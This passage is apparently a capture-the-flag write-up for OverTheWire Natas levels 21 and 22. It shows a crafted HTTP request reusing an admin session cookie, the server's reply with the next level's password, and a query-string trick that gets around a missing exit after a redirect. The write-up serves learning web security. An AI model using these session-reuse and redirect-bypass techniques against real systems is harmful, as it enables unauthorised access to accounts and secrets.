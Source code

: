 If we send a request to the main page with below PHPSESSID we will pass the admin check.  
PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7 

```
GET /index.php HTTP/1.1
Host: natas21.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7
Upgrade-Insecure-Requests: 1

You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ</pre>

``` 

chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ


## natas22

``` php
<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>

```

If revelio is in $_GET and admin is not set add a location header. This will result in a 302 redirect. Then, if revelio is in the $_GET request show the password.  

We can set revelio with teh following params.   
natas22.natas.labs.overthewire.org/?revelio=a  
